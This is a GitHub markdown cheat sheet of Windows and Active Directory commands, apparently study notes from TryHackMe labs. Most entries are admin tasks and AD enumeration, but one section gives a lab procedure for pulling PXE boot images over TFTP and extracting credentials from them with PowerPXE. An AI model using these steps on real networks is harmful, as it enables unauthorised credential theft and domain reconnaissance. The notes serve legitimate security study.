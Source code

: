 # Windows Commands

* [Active Directory](#active-directory)
* [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)
* [PowerShell](#powershell)


## Active Directory
Set password:
```
Set-ADAccountPassword [USERNAME] -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```
Another way:
```
Set-ADAccountPassword -Identity [USERNAME] -Server [DOMAIN] -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```
And Another way:
```
$Password = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force
```
```
Set-ADAccountPassword -Identity "[USERNAME]" -Reset -NewPassword $Password
```
  
Force password reset on next login:
```
Set-ADUser -ChangePasswordAtLogon $true -Identity [USERNAME] -Verbose
```
Force group policy update:
```
gpupdate /force
```
List all users in the AD domain:
```
net user /domain
```
List info on a specific user:
```
net user "[USERNAME]" /domain
```
List Groups in the AD domain:
```
net group /domain
```
List info on a specific group:
```
net group "[GROUP-NAME]" /domain
```
Enumerate password policy:
```
net accounts /domain
```
Enumerate AD Users:
```
Get-ADUser -Identity [USERNAME] -Server [DOMAIN] -Properties *
```
Example:
```
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
```
Pretty Output:
```
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
Another Way:
```
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```
Enumerate AD Groups:
```
Get-ADGroup -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```
Enumerate group membership:
```
Get-ADGroupMember -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```
Generic search for AD objects:
```
Get-ADObject [OPTIONS]
```
Example:
```
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```
Enumerate accounts that have a bad password count greater than 0:
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server [DOMAIN]
```
Get info about a specific domain:
```
Get-ADDomain -Server [DOMAIN]
```
* More info about the net command can be found here: https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems
* More info about cmdlets can be found here: https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

************************************
## Microsoft Deployment Toolkit

Dowload BDC file via TFTP:
```
tftp -i [TARGET-IP] GET "\Tmp\[FILE-PATH]" conf.bcd
```

Recover the locations of the PXE boot images from the BCD file:
```
powershell -executionpolicy bypass
```
```
Import-Module .\PowerPXE.ps1
```
```
$BCDFile = "conf.bcd"
```
```
Get-WimFile -bcdFile $BCDFile
```
Download Image:
```
tftp -i [TARGET-IP] GET "[PXE-BOOT-IMAGE-LOCATION]" pxeboot.wim
```
Recovering Credentials from a PXE Boot Image:
```
Get-FindCredentials -WimFile pxeboot.wim
```

* Credit: https://tryhackme.com/room/breachingad

************************************
## PowerShell

Get Service Names
```
powershell -c "Get-Service"
```
Find location of a file:
```
Get-ChildItem -Path C:\ -Include *[FILENAME]* -File -Recurse -ErrorAction SilentlyContinue
```
Example:
```
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue
```
Get file hash:
```
Get-FileHash -Path "[FILE-PATH]" -Algorithm [ALGORITHM]
```
Example:
```
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5
```
Base64 decode a file:
```
certutil -decode "[FILE-PATH]" [OUTPUT-FILE]
```
Example:
```
certutil -decode "C:\Users\Administrator\Desktop\b64.txt" output.txt
```


************************************


## References
* https://tryhackme.com/room/breachingad
* https://tryhackme.com/room/adenumeration
* https://tryhackme.com/room/powershell
